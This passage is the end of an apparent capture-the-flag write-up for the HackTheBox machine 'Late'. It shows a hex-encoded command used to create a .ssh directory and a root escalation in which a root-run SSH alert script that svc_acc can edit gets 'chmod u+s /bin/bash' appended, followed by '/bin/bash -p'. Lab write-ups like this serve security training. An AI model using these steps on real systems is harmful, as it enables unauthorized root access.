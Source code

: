 ```shell
# 6D6B646972202E737368
./encode.sh mkdir .ssh
```

## Rooting

The user has Ssh credentials, which can be used to log as `svc_acc`.

Running [LinPEAS][linpeas] returns:

```
You own the script: /usr/local/sbin/ssh-alert.sh
```

```shell
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

[Pspy][pspy] shows that the script is run by root and it is editable by `svc_acc`:

```shell
echo 'chmod u+s /bin/bash' >> /usr/local/sbin/ssh-alert.sh
```

It is launched on successful ssh logins, which is easy to trigger:

```shell
/bin/bash -p
```

[author-profile]: https://app.hackthebox.com/users/389926
[hacktricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[image-payload]: images/image-payload.png
[linpeas]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
[pspy]: https://github.com/DominicBreuker/pspy
[screenshot-frontpage]: images/screenshot-frontpage.png
[screenshot-webservice]: images/screenshot-webservice.png
[ssti-vector]: images/ssti-test.png
[webservice-url]: http://images.late.htb
